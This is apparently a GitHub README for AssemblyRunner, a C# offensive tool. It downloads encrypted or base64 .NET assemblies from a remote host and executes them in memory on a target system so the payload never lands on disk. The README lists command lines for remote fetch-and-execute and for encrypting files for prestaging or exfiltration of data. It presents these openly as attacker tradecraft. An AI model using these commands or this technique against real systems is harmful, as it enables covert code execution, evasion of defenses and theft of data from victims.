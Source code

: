 # AssemblyRunner

C# Binary that is designed to encrypt, decrypt, as well as retreive over HTTP C# assemblies and execute in-memory on a target system.

Overall goal was to be able to encrypt payload on attacker system, transfer this binary, and then remotely retreive encrypted binary and execute in-memory on a target system.

If performed correctly, actual executed payload is never on-disk. 

Functionality

.Net Exe Run in-memory with Arguments:

--Run remote .net exe (remote exe is b64 no encryption)

AssemblyRunner.exe -net http://IP/File(b64) "Arguments"

--Local .net exe File decrypt and run

AssemblyRunner.exe -rlocal PASSWORD File_to_Decrypt_and_run "Arguments"

--Remote .net File decrypt and run

AssemblyRunner.exe -rdec PASSWORD http://IP/File "Arguments"


.Net Exe Run in-memory without Arguments:

--Run remote .net exe (remote exe is b64 no encryption)
AssemblyRunner.exe -netno http://IP/File(b64)

--Local .net exe File decrypt and run
AssemblyRunner.exe -rlocalno PASSWORD File_to_Decrypt_and_run

--Remote .net File decrypt and run
AssemblyRunner.exe -rdecno PASSWORD http://IP/File


File Encryption only:

--Encrypt Remote exe and download local, saved as encrypt_remote.txt
AssemblyRunner.exe -enc PASSWORD http://IP/File


--Encrypt Local File, used for prestaging or exfil of data, saved as encrypt_local.txt
AssemblyRunner.exe -file PASSWORD FILE/TO/ENC


--Local File Decrypt for exfil, not on target system, file saved as decrypted.txt
AssemblyRunner.exe -decfile PASSWORD File_to_Decrypt
